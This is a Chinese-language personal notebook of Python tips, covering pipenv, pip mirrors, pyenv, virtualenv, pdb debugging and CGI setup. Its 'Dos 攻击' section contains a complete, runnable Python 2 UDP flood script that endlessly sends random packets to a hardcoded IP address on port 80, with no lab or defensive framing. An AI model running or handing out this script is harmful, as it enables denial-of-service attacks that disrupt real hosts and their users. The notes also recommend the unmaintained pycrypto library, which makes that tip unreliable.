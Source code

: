 ﻿# Python学习

## Pipenv 开发工作流程

创建虚拟工作环境

1. 不需要使用 pip 和 virtualenv
2. 管理 requirements.txt 文件
3. 深入了解您的依赖关系图 `pipenv graph`

```
Usage Examples:
   Create a new project using Python 3.7, specifically:
   $ pipenv --python 3.7

   Remove project virtualenv (inferred from current directory):
   $ pipenv --rm

   Install all dependencies for a project (including dev):
   $ pipenv install --dev

   Create a lockfile containing pre-releases:
   $ pipenv lock --pre

   Show a graph of your installed dependencies:
   $ pipenv graph

   Check your installed dependencies for security vulnerabilities:
   $ pipenv check

   Install a local setup.py into your virtual environment/Pipfile:
   $ pipenv install -e .

   Use a lower-level pip command:
   $ pipenv run pip freeze
   
```

## python requirements.txt创建和使用

使用pip生成requirements.txt文件

`pip freeze > requirements.txt`

安装requirements.txt依赖

`pip install -r requirements.txt`

## 国内镜像下载

pip install -i https://pypi.tuna.tsinghua.edu.cn/simple some-package

清华源 pip config set global.index-url https://pypi.tuna.tsinghua.edu.cn/simple

阿里源 pip config set global.index-url https://mirrors.aliyun.com/pypi/simple/

腾讯源 pip config set global.index-url http://mirrors.cloud.tencent.com/pypi/simple

## 多版本安装包

`python3.9 -m pip install tensorflow`

## 截屏转文字

英文: https://github.com/ianzhao05/textshot

设置 alias

`alias textshot="python /Users/linweiye/Documents/textshot/textshot.py"`

使用 textshot

中文识别: https://github.com/ouyanghuiyu/chineseocr_lite

## 爬虫库

Scrapy 安装 `pip install scrapy`

## 密码学库

一般用这个比较多 [crypto](https://pypi.org/project/pycrypto/)

## jupyter 使用

`jupyter notebook`

## 格式化错误输出

[一行代码简化Python异常信息：错误清晰指出，排版简洁美观](https://mp.weixin.qq.com/s/OdAGGHMd6tg-_Jn-wZIifQ)

`python -m pip install pretty_errors`


## .zshrc 配置

`eval "$(pyenv init -)"`


## 测试

pytest

## Dos 攻击

python 2.7.8

```python
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

ip = '118.89.38.11'
port = 80

os.system("clear")
os.system("figlet Attack Starting")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
```

## Python 调试功能

Thonny

## 虚环境安装

### venv
a single version different virtual environments
Python 单版本, 虚拟环境

给每个python项目提供不同环境，数据库版本等
```
pip install virtualenv  //安装
cd dir  //进项目目录
virtualenv venv //新建venv目录,复制系统python到venv
./venv/bin/pip install tornado //虚环境安装tornado
./venv/bin/python xxxx.py //虚环境运行xxxx.py
source ./venv/bin/activate //activate命令启动虚环境，不用显式调用虚环境bin
deactivate //退出虚环境
// 使用``~/.bashrc``的一个环境变量将解释器改为全局性的：
export VIRTUALENVWRAPPER_PYTHON=/usr/bin/python2.7
```
### pyenv

Python 多版本管理
to use multiple versions without virtual environments

```shell
brew update
brew pyenv install/upgrade
pyenv install 2.7.8
brew uninstall pyenv  卸载 pyenv
pyenv uninstall  卸载 python 版本
pyenv install 3.6.3  # Install Python version
pyenv install 3.4.0
pyenv versions       # Displays the currently active Python version, along with information on how it was set.
pyenv version       # Lists all Python versions known to pyenv, and shows an asterisk next to the currently active version.
pyenv global 3.6.3   # Set your system's Python version
pyenv shell 3.6.3   # Set your shell's Python version
pyenv shell   # show your shell's Python version
pyenv whence # Lists all Python versions with the given command installed.
pyenv install --list # 可以下载的版本
```

## xampp Apache服务器配置Python
打开httd.conf

AddHandler cgi-script .cgi .pl .asp 添加.py
AddHandler cgi-script .cgi .pl .asp .py
把mycgi-test.py放到xampp\cgi-bin下,浏览器打开
localhost/cgi-bin/mycgi-test.py

mycgi-test.py代码
```
#! C:\Python27\python.exe # python接收器路径
 
print 'Content-type:text/plain'
print
 
print"Hello Cooder"
```
## window上cmd显示中文问题

在程序里打中文编码为unicode编码，就是utf-8
print u"中文"  #前面加上u
s="爱你"
print s.decode('utf-8')  #或者强制编码
## 调试
python -m pdb my.py
b 10 第10行断点
n next
s step
l list
p print
c contune
q quit
j 10 jump 10 跳到第10行
直接回车是重复前一条命令!